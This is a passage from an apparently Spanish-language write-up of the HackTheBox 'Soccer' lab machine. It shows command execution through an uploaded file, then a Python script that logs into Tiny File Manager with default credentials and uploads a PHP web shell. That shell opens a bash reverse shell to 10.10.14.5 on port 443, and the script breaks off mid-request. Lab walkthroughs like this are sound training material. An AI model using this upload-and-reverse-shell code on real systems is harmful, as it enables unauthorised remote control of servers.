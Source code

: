 ![imagen 1](imga1.png)

Al hacer clic en el archivo y luego a *open*, podremos ejecutar comandos a través del parámetro ***cmd***:

![imagen 2](image2.png)

En este caso, he ejecutado ***whoami*** a través del parámetro ***cmd***. El siguiente *script* automatiza la subida del archivo y la ejecución de un payload, que envía por el puerto *443* una *reverse shell*:

```python
#!/usr/bin/python3

import signal,requests,sys

#Ctrl+C
def defhandler():
    print("[*] Saliendo...")
    sys.exit(1)

signal.signal(signal.SIGINT,defhandler)

#Variables globales 
url="http://soccer.htb/tiny/"
burp = {'http': 'http://localhost:8080'}

def login():
    urlLogin = url + "tinyfilemanager.php?p=tiny%2Fuploads"

    headers = {
        "Cookie": "filemanager=gmtimk86nahp3klphn54427m2u"
    }

    data = {
        "fm_usr":"admin",
        "fm_pwd":"admin@123"
    }

    requests.post(urlLogin, headers=headers, data=data)
	
def rce():
    urlUpload =url + "tinyfilemanager.php?p=tiny/uploads"
    headers = {
        "Content-Type": "multipart/form-data; boundary=----WebKitFormBoundaryc2w6QHu2wMC6QJV3",
        "Cookie": "filemanager=gmtimk86nahp3klphn54427m2u"
    }

    data = """
------WebKitFormBoundaryc2w6QHu2wMC6QJV3
Content-Disposition: form-data; name="p"

tiny/uploads
------WebKitFormBoundaryc2w6QHu2wMC6QJV3
Content-Disposition: form-data; name="fullpath"

shell.php
------WebKitFormBoundaryc2w6QHu2wMC6QJV3
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: application/x-php

<?php 
        system('bash -c "bash -i >& /dev/tcp/10.10.14.5/443 0>&1"'); 
?>
```